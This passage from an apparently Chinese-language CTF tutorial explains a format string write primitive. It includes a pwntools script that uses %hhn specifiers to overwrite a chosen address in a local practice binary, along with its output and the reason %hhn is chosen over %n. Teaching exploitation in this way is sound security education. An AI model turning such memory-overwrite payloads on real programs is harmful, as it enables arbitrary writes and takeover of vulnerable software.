 - offset表示要覆盖的地址最初的偏移
- size表示机器字长
- addr表示将要覆盖的地址。
- target表示我们要覆盖为的目的变量值。

相应的exploit如下

```python
def forb():
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print payload
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```

结果如下

```python
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 78547
(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0%104c%6$hhn%222c%7$hhn%222c%8$hhn%222c%9$hhn
[*] Process './overwrite' stopped with exit code 0 (pid 78547)
0xfff6f9bc
(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0                                                                                                       X                                                                                                                                                                                                                             �                                                                                                                                                                                                                             \xbb                                                                                                                                                                                                                             ~modified b for a big number!
```

当然，我们也可以利用%n分别对每个地址进行写入，也可以得到对应的答案，但是由于我们写入的变量都只会影响由其开始的四个字节，所以最后一个变量写完之后，我们可能会修改之后的三个字节，如果这三个字节比较重要的话，程序就有可能因此崩溃。而采用%hhn则不会有这样的问题，因为这样只会修改相应地址的一个字节。

